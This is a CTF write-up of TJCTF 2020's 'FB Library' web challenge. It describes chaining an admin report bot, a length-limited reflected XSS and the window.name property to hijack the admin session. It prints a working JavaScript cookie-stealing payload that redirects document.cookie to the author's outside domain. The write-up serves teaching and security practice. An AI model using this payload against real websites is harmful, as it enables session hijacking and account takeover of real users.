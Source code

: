 ```yaml
---
title: TJCTF 2020 FB Library Writeup
category: cyber-security
tags: [ctf]
---
```


I want to make a writeup for this one because it was one of my favourites and I can't find a writeup for it yet on [CTFTime](https://ctftime.org/event/928/tasks/).

Here was the description:

![problem description](/assets/images/fb_library.png)

The [linked website](https://fb_library.tjctf.org/) had a login and registration system that then allowed you to view a catalog of books and then report them to the admin. When you reported, you would go to `/report?url=<book url>` with a success message. We realized we could make it `report` any valid url and it would then open a get request to that url

So for example, when I reported my website [http://uzpg.me](http://uzpg.me), I noticed a new GET request with a User-Agent `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36`. The most important part here is the **HeadlessChrome** part which is a [Headless Browser](https://en.wikipedia.org/wiki/Headless_browser). A headless browser is an automated way of using a browser without human action.

This meant that we could try and access the cookies and data of this headless browser instance to compromise the `fb_library`. Indeed, the login system we noticed above had a `session` cookie that would log you in. This meant that if we could steal the value of that cookie, we would have admin access.

At first, I tried to report a url that had a `script` that sent me its cookies. Unfortunately, they were empty, because of [Same-Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) which prevents a malicious website of accessing cookies of another different domain like the `fb_library` one. 

This meant, the only way I could execute my cookie stealer would be by embedding the payload on the `fb_library` domain. This meant finding another XSS on the website itself. We noticed Reflected XSS in the search bar that allowed you to look for books. But the length of the field was struncated AFTER 20 characters!!! 

Building a cookie stealer in 20 characters would be impossible, so we had to find another way. Some [funny posts](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html) had the idea of buying a short domain, but the admins told us no purchase was required. 

My teammate [Techno-Disaster](http://technodisaster.me) 	scoured the web and found the very interesting `window.name` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/name). This allows you to store a string across different websites. So for example, I can set its value on my own, and then if I redirect to their website, its value will stay the same. Do you see where I am going? :)

So our trick was to make it go to our website and then have a script that would change the `window.name` property to our payload, and then redirect it to the vulnerable search page by setting the query parameter to `<script>eval(name)`. This evaluates our payload stored in the `window.name` property and executes our cookie stealing payload.

```js
window.name = "window.location = 'http://uzpg.me/' + document.cookie;";
location = "https://fb_library.tjctf.org/search?q=<script>eval(name)/*"";
```

When executed, this `window.name` payload executed on the `fb_library` domain would redirect to my website + the cookie.

At that point, all I had to do was look at the cookie and then change my `session` cookie to log in as admin, and then I had the flag:

![flag](/assets/images/flag_lib.png)
